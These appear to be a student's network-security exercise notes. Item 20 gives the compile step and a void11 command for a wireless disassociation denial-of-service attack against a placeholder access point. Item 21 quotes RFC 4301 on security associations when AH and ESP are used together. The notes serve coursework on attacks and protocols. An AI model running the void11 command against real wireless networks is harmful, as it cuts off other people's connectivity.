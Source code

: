 **20- Implement the DOS attack - Disassociation Attack.** 

>Download void11 and compile it. 
>
>![image-20230424162817616](/Users/jack/Library/Application Support/typora-user-images/image-20230424162817616.png)
>
>```shell
>make HOSTAPD_PATH=[PATH_TO_HOSTAPD] <FLAGS> (find flags in :: subdirs ::)
>```
>
>Do single large dos:
>
>```shell
>iwconfig wlan0 mode master
>./void11_penetration -D -B 00:02:01:02:03:04 wlan0
>```

**21- Research and explain how security associations work when both AH and ESP are applied**

>According to [section 4.1 of *Security Architecture for IP*](https://www.rfc-editor.org/rfc/pdfrfc/rfc4301.txt.pdf): If both AH and ESP protection are applied to a traffic stream, then two SAs must be created and coordinated to effect protection through iterated application of the security protocols. 


